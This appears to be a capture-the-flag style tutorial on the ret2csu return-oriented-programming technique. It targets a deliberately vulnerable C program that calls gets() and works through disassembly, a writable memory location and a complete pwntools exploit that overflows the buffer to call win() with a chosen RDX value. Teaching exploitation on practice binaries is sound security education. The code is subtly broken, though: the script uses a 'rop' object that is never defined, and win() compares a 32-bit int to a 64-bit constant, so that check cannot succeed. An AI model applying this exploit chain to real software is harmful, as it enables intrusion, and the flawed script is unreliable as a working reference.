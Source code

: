 # Exploitation

## Source

```c
#include <stdio.h>

int win(int x, int y, int z) {
    if(z == 0xdeadbeefcafed00d) {
        puts("Awesome work!");
    }
}

int main() {
    puts("Come on then, ret2csu me");

    char input[30];
    gets(input);
    return 0;
}
```

Obviously, you can do a ret2plt followed by a ret2libc, but that's _really_ not the point of this. Try calling `win()`, and to do that you have to populate the register `rdx`. Try what we've talked about, and then have a look at the answer if you get stuck.

## Analysis

We can work out the addresses of the massive chains using r2, and chuck this all into pwntools.

```text
[...]
0x00401208      4c89f2         mov rdx, r14
0x0040120b      4c89ee         mov rsi, r13
0x0040120e      4489e7         mov edi, r12d
0x00401211      41ff14df       call qword [r15 + rbx*8]
0x00401215      4883c301       add rbx, 1
0x00401219      4839dd         cmp rbp, rbx
0x0040121c      75ea           jne 0x401208
0x0040121e      4883c408       add rsp, 8
0x00401222      5b             pop rbx
0x00401223      5d             pop rbp
0x00401224      415c           pop r12
0x00401226      415d           pop r13
0x00401228      415e           pop r14
0x0040122a      415f           pop r15
0x0040122c      c3             ret
```

```python
from pwn import *

elf = context.binary = ELF('./vuln')
p = process()

POP_CHAIN = 0x00401224 # pop r12, r13, r14, r15, ret
REG_CALL = 0x00401208  # rdx, rsi, edi, call [r15 + rbx*8]
```

{% hint style="info" %}
Note I'm not popping RBX, despite the `call`. This is because RBX ends up being `0` anyway, and you want to mess with the least number of registers you need to to ensure the best success.
{% endhint %}

## Exploitation

### Finding a win\(\)

Now we need to find a memory location that has the address of `win()` written into it so that we can point `r15` at it. I'm going to opt to call `gets()` again instead, and then input the address. The location we input to is a fixed location of our choice, which is reliable. Now we just need to find a location.

To do this, I'll run r2 on the binary then `dcu main` to contiune until main. Now let's check permissions:

```text
[0x00401199]> dm
0x0000000000400000 - 0x0000000000401000 - usr     4K s r--
0x0000000000401000 - 0x0000000000402000 * usr     4K s r-x
0x0000000000402000 - 0x0000000000403000 - usr     4K s r--
0x0000000000403000 - 0x0000000000404000 - usr     4K s r--
0x0000000000404000 - 0x0000000000405000 - usr     4K s rw-
```

The third location is RW, so let's check it out.

```text
0x00401199]> pxq @ 0x0000000000404000
0x00404000  0x0000000000403e20  0x00007f7235252180    >@......!%5r...
0x00404010  0x00007f723523c5e0  0x0000000000401036   ..#5r...6.@.....
0x00404020  0x0000000000401046  0x0000000000000000   F.@.............
```

The address `0x404028` appears unused, so I'll write `win()` there.

```python
RW_LOC = 0x00404028
```

### Reading in win\(\)

To do this, I'll just use the ROP class.

```python
rop.raw('A' * 40)
rop.gets(RW_LOC)
```

### Popping the registers

Now we have the address written there, let's just get the massive ropchain and plonk it all in

```python
rop.raw(POP_CHAIN)
rop.raw(0)                      # r12
rop.raw(0)                      # r13
rop.raw(0xdeadbeefcafed00d)     # r14 - popped into RDX!
rop.raw(RW_LOC)                 # r15 - holds location of called function!
rop.raw(REG_CALL)               # all the movs, plus the call
```

### Sending it off

Don't forget to pass a parameter to the `gets()`:

```python
p.sendlineafter('me\n', rop.chain())
p.sendline(p64(elf.sym['win']))            # send to gets() so it's written
print(p.recvline())                        # should receive "Awesome work!"
```

## Final Exploit

```python
from pwn import *

elf = context.binary = ELF('./vuln')
p = process()

POP_CHAIN = 0x00401224 # pop r12, r13, r14, r15, ret
REG_CALL = 0x00401208  # rdx, rsi, edi, call [r15 + rbx*8]
RW_LOC = 0x00404028

rop.raw('A' * 40)
rop.gets(RW_LOC)
rop.raw(POP_CHAIN)
rop.raw(0)                      # r12
rop.raw(0)                      # r13
rop.raw(0xdeadbeefcafed00d)     # r14 - popped into RDX!
rop.raw(RW_LOC)                 # r15 - holds location of called function!
rop.raw(REG_CALL)               # all the movs, plus the call

p.sendlineafter('me\n', rop.chain())
p.sendline(p64(elf.sym['win']))            # send to gets() so it's written
print(p.recvline())                        # should receive "Awesome work!"
```

And we have successfully controlled RDX - without any RDX gadgets!

